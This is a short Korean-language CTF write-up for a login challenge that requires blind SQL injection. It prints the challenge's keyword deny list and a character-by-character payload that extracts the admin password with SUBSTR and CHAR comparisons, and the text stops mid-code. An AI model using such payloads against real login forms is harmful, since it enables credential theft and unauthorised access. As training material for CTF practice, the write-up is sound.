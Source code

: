 # WriteUp
userid와 password를 double-check 하기 때문에 blind sql injection을 통해 실제 admin의 비밀번호를 알아내야 한다. 
 
blind sql injection 을 하기 위해 필터링된 명령어를 사용하지 않고 (또는 우회해서) 인젝션을 사용해야 한다. 
```python
SQL_BAN_LIST = [
    'update', 'extract', 'lpad', 'rpad', 'insert', 'values', '~', ':', '+',
    'union', 'end', 'schema', 'table', 'drop', 'delete', 'sleep', 'substring',
    'database', 'declare', 'count', 'exists', 'collate', 'like', '!', '"',
    '$', '%', '&', '+', '.', ':', '<', '>', 'delay', 'wait', 'order', 'alter'
]
``` 
 

```python
query = 'SELECT * FROM users WHERE username = \'
' or (SELECT SUBSTR((SELECT password WHERE username='admin'), 4, 1)) = CHAR(100);#
\'